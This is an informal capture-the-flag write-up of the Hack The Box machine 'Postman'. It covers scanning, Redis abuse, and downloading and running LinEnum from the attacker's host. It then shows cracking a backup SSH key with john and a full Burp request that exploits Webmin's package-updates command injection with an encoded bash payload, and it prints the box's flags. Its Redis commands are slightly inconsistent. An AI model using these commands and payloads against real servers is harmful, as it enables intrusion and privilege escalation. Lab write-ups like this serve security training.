 # Postman

IP: 10.10.10.160
started: 11:40pm

## new enumeration step 

i found an new way to automate finding basic exploits so this is my secret.
its runnning nmap with searchsploit.

```sh
#!/bin/bash

# by bread auto vuln
nmap -p 1-65535 -T4 -A -v -sV -oX $2.xml $1
searchsploit -v --nmap $2.xml
```


Scanning 10.10.10.160 [1000 ports]
Discovered open port 22/tcp on 10.10.10.160
Discovered open port 80/tcp on 10.10.10.160
Discovered open port 10000/tcp on 10.10.10.160


### Redis RCE nope... well sort of 

https://github.com/n0b0dyCN/redis-rogue-server
https://github.com/Ridter/redis-rce/blob/master/redis-rce.py 


https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html


ssh-keygen -t rsa
(echo -e "nn"; cat ./id_rsa.pub; echo -e "nn") > bread.txt
cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit

### Redis to user.

spin up a simple webserver 
`python -m SimpleHTTPServer 8000`

copy across `LinEnum.sh`
```
redis@Postman:/tmp/.bread$ wget 10.10.14.2:8000/LinEnum.sh
redis@Postman:/tmp/.bread$ chmod +x LinEnum.sh && ./LinEnum.sh
```

```
root        702  0.0  3.1  95304 29328 ?        Ss   01:44   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
```

thats an interesting line, lets look into it... ok webmin seems like a dead end atm.


#### More ENUM!

one of the only other interesting thing was the other user Matt.
so lets see what Matts footprint is like on the system.

```
redis@Postman:/$ find . -name "*" -user Matt 2>/dev/null
./opt/id_rsa.bak
./home/Matt
./home/Matt/.bashrc
./home/Matt/.bash_history
./home/Matt/.gnupg
./home/Matt/.ssh
./home/Matt/user.txt
./home/Matt/.selected_editor
./home/Matt/.local
./home/Matt/.local/share
./home/Matt/.profile
./home/Matt/.cache
./home/Matt/.wget-hsts
./home/Matt/.bash_logout
./var/www/SimpleHTTPPutServer.py
```

well look at the first one thats kinda dumb

### crack Matts SSH key

good old ssh to john and then john with rockyou.

```
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman# mkdir Matt
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman# cd Matt/
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman/Matt# nano id_rsa.bak
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman/Matt# /usr/share/john/ssh2john.py id_rsa.bak >> hash
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman/Matt# john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
1g 0:00:00:13 DONE (2020-02-14 13:45) 0.07627g/s 1093Kp/s 1093Kc/s 1093KC/sa6_123..*7¡Vamos!
Session completed
```

ssh in didnt work so i went with `su Matt` and that worked *shrug*

```
redis@Postman:/$ su Matt 
Password: 
Matt@Postman:/$ cd ~
Matt@Postman:~$ cat user.txt 
517ad0ec2458ca97af8d93aac08a2f3c
```

### what the hell is webmin

 ok i had to find out what is going on with the webmin, so i had a look at the config file.
it mentions Matt a bit so i assume matt has some kinda access.
```
Matt@Postman:/etc/webmin$ cat config 
find_pid_command=ps auwwwx | grep NAME | grep -v grep | awk '{ print $2 }'
path=/bin:/usr/bin:/sbin:/usr/sbin:/usr/local/bin
passwd_uindex=0
ld_env=LD_LIBRARY_PATH
tempdelete_days=7
by_view=0
passwd_pindex=1
passwd_mindex=4
passwd_cindex=2
passwd_file=/etc/shadow
os_type=debian-linux
os_version=9.0
real_os_type=Ubuntu Linux
real_os_version=18.04.3
lang=en.UTF-8
log=1
referers_none=1
md5pass=1
theme=authentic-theme
product=webmin
webprefix=
realname_Matt=Matt
```

and yes, if we visit `https://10.10.10.160:10000/` we can log in as Matt.

## Root via burp

after searching for non-metasploit exploits i found that 

```
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman/Matt# searchsploit webmin -w
--------------------------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                                         |  URL
--------------------------------------------------------------------------------------- --------------------------------------------
DansGuardian Webmin Module 0.x - 'edit.cgi' Directory Traversal                        | https://www.exploit-db.com/exploits/23535
Webmin - Brute Force / Command Execution                                               | https://www.exploit-db.com/exploits/705
Webmin 0.9x / Usermin 0.9x/1.0 - Access Session ID Spoofing                            | https://www.exploit-db.com/exploits/22275
Webmin 0.x - 'RPC' Privilege Escalation                                                | https://www.exploit-db.com/exploits/21765
Webmin 0.x - Code Input Validation                                                     | https://www.exploit-db.com/exploits/21348
Webmin 1.5 - Brute Force / Command Execution                                           | https://www.exploit-db.com/exploits/746
Webmin 1.5 - Web Brute Force (CGI)                                                     | https://www.exploit-db.com/exploits/745
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)                  | https://www.exploit-db.com/exploits/21851
Webmin 1.850 - Multiple Vulnerabilities                                                | https://www.exploit-db.com/exploits/42989
Webmin 1.900 - Remote Command Execution (Metasploit)                                   | https://www.exploit-db.com/exploits/46201
Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)                 | https://www.exploit-db.com/exploits/46984
Webmin 1.920 - Remote Code Execution                                                   | https://www.exploit-db.com/exploits/47293
Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)                      | https://www.exploit-db.com/exploits/47230
Webmin 1.x - HTML Email Command Execution                                              | https://www.exploit-db.com/exploits/24574
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (PHP)                     | https://www.exploit-db.com/exploits/1997
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (Perl)                    | https://www.exploit-db.com/exploits/2017
phpMyWebmin 1.0 - 'target' Remote File Inclusion                                       | https://www.exploit-db.com/exploits/2462
phpMyWebmin 1.0 - 'window.php' Remote File Inclusion                                   | https://www.exploit-db.com/exploits/2451
webmin 0.91 - Directory Traversal                                                      | https://www.exploit-db.com/exploits/21183
--------------------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Result
```

2019-12840

https://github.com/Dog9w23/Webmin-1.910-Exploit/blob/master/Webmin%201.910%20-%20Remote%20Code%20Execution%20using%20BurpSuite

modified the command to just cat root.txt and there we go

```
POST /package-updates/update.cgi HTTP/1.1
Host: 10.10.10.160:10000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Progressive-URL: https://10.10.10.160:10000/package-updates/update.cgi
X-Requested-From: package-updates
X-Requested-From-Tab: webmin
X-Requested-With: XMLHttpRequest
Content-Length: 116
DNT: 1
Connection: close
Referer: https://10.10.10.160:10000/package-updates/update.cgi?xnavigation=1
Cookie: redirect=1; testing=1; sid=4ae4346a6a9e0cfaffc12b4d51e0b4eb
Pragma: no-cache
Cache-Control: no-cache

u=acl%2Fapt&u=%20%7C%20bash%20-c%20%22%7becho%2cY2F0IC9yb290L3Jvb3QudHh0%7d%7c%7bbase64%2c-d%7d%7c%7bbash%2c-i%7d%22
```
running that in burp gets me
```
<div class="panel-body">
Building complete list of packages ..<p>
Now updating <tt>acl  | bash -c "{echo,Y2F0IC9yb290L3Jvb3QudHh0}|{base64,-d}|{bash,-i}"</tt> ..<br>
<ul>
<b>Installing package(s) with command <tt>apt-get -y  install acl  | bash -c "{echo,Y2F0IC9yb290L3Jvb3QudHh0}|{base64,-d}|{bash,-i}"</tt> ..</b><p>
<pre>bash: cannot set terminal process group (702): Inappropriate ioctl for device
bash: no job control in this shell
root@Postman:/usr/share/webmin/package-updates/# cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce
root@Postman:/usr/share/webmin/package-updates/# exit
</pre>
<b>.. install complete.</b><p>
</ul><br>
No packages were installed. Check the messages above for the cause of the error.<p>
```

    `a257741c5bed8be7778c6ed95686ddce`


